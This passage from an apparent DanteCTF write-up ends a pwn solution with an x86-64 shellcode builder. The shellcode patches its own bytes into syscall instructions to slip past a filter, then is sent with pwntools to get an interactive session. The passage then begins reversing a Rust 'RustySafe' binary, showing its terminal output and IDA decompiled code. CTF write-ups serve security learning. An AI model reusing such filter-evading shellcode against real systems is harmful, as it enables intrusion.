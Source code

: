 ```py
shell += b'\x48\xff\x44\x24\x3d' #inc qword ptr[rsp+3d];
shell += b'\x48\xff\x44\x24\x3e' #inc qword ptr[rsp+3e];
shell += b'\x0e\x04' #it will be changed to \x0e\x05 which is syscall

shell += b'\x48\x8d\x38' # lea rdi, [rax]
shell += b'\x31\xc0'
shell += b'\x6a\x50'
shell += b'\x5a'
shell += b'\x48\x8d\x34\x24' # lea rsi, [rsp]

shell += b'\x48\xff\x44\x24\x55' #inc qword ptr[rsp+55];
shell += b'\x48\xff\x44\x24\x56' #inc qword ptr[rsp+56];
shell += b'\x0e\x04' #it will be changed to \x0e\x05 which is syscall

shell += b'\x6a\x01\x5f'
shell += b'\x48\x8d\x10'

shell += b'\x48\x8d\x34\x24'
shell += b'\x6a\x01\x58'

shell += b'\x48\xff\x44\x24\x6e' #inc qword ptr[rsp+6e];
shell += b'\x48\xff\x44\x24\x6f' #inc qword ptr[rsp+6f];
shell += b'\x0e\x04' #it will be changed to \x0e\x05 which is syscall


p.sendline(shell)
p.interactive()
```


## Rev/RustySafe

This challenge is all about reversing a HUGE rust binary, which scared me at the beginning.
But after a short time I really found this challenge interseting and fun.

Lets run the binary:

```
itay@itay-Vortex-G25-8RD:/media/itay/Data/DanteCTF/rev$ ./safe 
Enter the code
1
Wrong.
itay@itay-Vortex-G25-8RD:/media/itay/Data/DanteCTF/rev$ ./safe 
Enter the code
a
```

We can guess that its a program which reads a number from a user and compares it to some value.

After searching for a bit in IDA, I saw the function which does most things:

```c
 number = sub_40490(v3, v4);
  if ( (number & 1) != 0 )
  {
    LOBYTE(v14) = BYTE1(number);
    sub_8BC0("You must enter a number", 24LL, &v14, &off_51ED0, &off_51F78);
  }
  v32 = number & 0xFFFFFFFF00000000LL;
  if ( (number & 0xFFFFFFFF00000000LL) == 0x2A00000000LL )
  {
    sub_9A00(&v19, &unk_420B3, 81LL, &unk_42166, 26LL);
    v23 = (__int64 *)&v19;
```
